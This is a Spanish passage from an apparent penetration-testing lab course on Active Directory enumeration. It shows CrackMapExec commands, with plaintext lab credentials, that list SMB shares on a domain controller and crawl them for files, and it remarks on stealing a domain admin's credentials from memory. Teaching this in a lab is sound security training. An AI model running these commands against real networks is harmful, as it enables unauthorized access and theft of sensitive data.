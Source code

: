 Vemos que muchos usuarios están conectados a este servidor, lo cual es muy interesante. También podemos ver que nuestro usuario `forend` es un administrador local porque `(Pwn3d!)` aparece después de que la herramienta se autentica exitosamente en el host objetivo. Un host como este podría ser usado como un jump host o similar por usuarios administrativos. Podemos ver que el usuario `svc_qualys` está conectado, a quien identificamos anteriormente como un administrador del dominio. Podría ser una victoria fácil si podemos robar las credenciales de este usuario de la memoria o suplantarlo.

Como veremos más adelante, `BloodHound` (y otras herramientas como `PowerView`) pueden usarse para cazar sesiones de usuario. BloodHound es particularmente poderoso ya que podemos usarlo para ver sesiones de Usuarios del Dominio gráficamente y rápidamente de muchas maneras. De todos modos, herramientas como CME son excelentes para una enumeración y caza de usuarios más específicas.

### CME Share Searching

Podemos usar la flag `--shares` para enumerar los shares disponibles en el host remoto y el nivel de acceso que nuestra cuenta de usuario tiene para cada share (acceso READ o WRITE). Ejecutemos esto contra el Domain Controller de INLANEFREIGHT.LOCAL.

### Share Enumeration - Domain Controller

```r
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated shares
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Share           Permissions     Remark
SMB         172.16.5.5      445    ACADEMY-EA-DC01  -----           -----------     ------
SMB         172.16.5.5      445    ACADEMY-EA-DC01  ADMIN$                          Remote Admin
SMB         172.16.5.5      445    ACADEMY-EA-DC01  C$                              Default share
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Department Shares READ            
SMB         172.16.5.5      445    ACADEMY-EA-DC01  IPC$            READ            Remote IPC
SMB         172.16.5.5      445    ACADEMY-EA-DC01  NETLOGON        READ            Logon server share 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  SYSVOL          READ            Logon server share 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  User Shares     READ            
SMB         172.16.5.5      445    ACADEMY-EA-DC01  ZZZ_archive     READ 
```

Vemos varios shares disponibles para nosotros con acceso `READ`. Los shares `Department Shares`, `User Shares` y `ZZZ_archive` valdría la pena investigarlos más a fondo ya que pueden contener datos sensibles como contraseñas o PII. A continuación, podemos profundizar en los shares y rastrear cada directorio buscando archivos. El módulo `spider_plus` rastreará cada share legible en el host y listará todos los archivos legibles. Vamos a probarlo.

### Spider_plus

```r
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Started spidering plus with option:
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]        DIR: ['print$']
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]        EXT: ['ico', 'lnk']
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]       SIZE: 51200
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]     OUTPUT: /tmp/cme_spider_plus
```
